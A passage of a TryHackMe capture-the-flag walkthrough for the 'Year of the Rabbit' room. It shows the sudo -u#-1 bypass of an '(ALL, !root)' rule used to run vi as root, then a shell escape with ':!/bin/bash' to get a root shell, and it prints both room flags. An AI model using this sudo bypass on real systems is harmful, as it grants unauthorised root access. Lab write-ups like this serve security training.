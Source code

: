 Let's get flag
```
gwendoline@year-of-the-rabbit:~$ cat user.txt 

THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```

Time to privesc.

```
sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

We can see that Gwendoline can run ```vi``` which belong to root
```
gwendoline@year-of-the-rabbit:~$ ls -al /usr/bin/vi

lrwxrwxrwx 1 root root 20 Jan 23  2020 /usr/bin/vi -> /etc/alternatives/vi
```

As ```vi``` can execute commands, maybe we could run some commands while in vi.

From [1] we can see we can run commands in ```vi``` with '!'. Let's try to call bash.

Tried different thing, but didn't manage to privesc, but I remember in a previous room, there was an exploit for ```sudo (ALL, !root)```.

After checking it, I ran the following
```
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt 
```

Which spawn a ```vi```, now running the ```:!/bin/bash``` returned a root shell.

```
root@year-of-the-rabbit:/home/gwendoline# whoami

root
```

Let's get flag
```
root@year-of-the-rabbit:/home/gwendoline# cat /root/root.txt 

THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```

## Flag

1. User

```
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```

2. Privesc

```
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```

## To Go Further

I removed the 'RickRoll.mp4' from the git as it was big, and useless in the end.
